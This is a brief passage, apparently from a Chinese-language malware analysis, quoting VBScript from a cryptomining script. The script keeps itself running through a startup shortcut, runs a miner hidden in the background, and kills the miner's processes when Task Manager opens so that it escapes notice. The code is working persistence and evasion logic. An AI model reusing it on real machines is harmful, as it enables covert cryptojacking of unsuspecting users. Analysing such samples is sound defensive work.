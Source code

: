 ```vb

ws.Run Chr(34) & strPath & procname & Chr(34)

end sub

'--------------------------------------------------------------------------------


```

主要代码是一个永远为真的循环

```vb
While True
	key = Empty
	key = ws.regread (nkey)
	If (not IsEmpty(key)) then
	
		ws.RegWrite nkey, 2, "REG_BINARY"	
	End if
	
	If (not objws.fileexists(startupPath & "\helper.lnk")) then
		Set link = ws.CreateShortcut(startupPath & "\helper.lnk")
		link.Description = "helper"
		link.TargetPath =chr(34) & strPath & "helper.vbs" & chr(34)
		link.WorkingDirectory = strPath
		link.Save
	End If

	Set colProcess = objWinMgmt.ExecQuery ("Select * From Win32_Process where name = 'wscript.exe'")

	call procheck(colProcess, "installer.vbs")

	Set colProcess = objWinMgmt.ExecQuery ("Select * From Win32_Process where name Like '%WindowsServices.exe%'")
	Set tskProcess = objWinMgmt.ExecQuery ("Select * From Win32_Process where name Like '%Taskmgr.exe%'")

	if colProcess.count = 0 And tskProcess.count = 0  then

		ws.Run miner, 0
	
	ElseIf colProcess.count > 0 And tskProcess.count > 0 then

		For Each objProcess In colProcess
			ws.run "taskkill /PID " & objProcess.ProcessId , 0 
		Next
		
	end if
	WScript.Sleep 3000
Wend

```
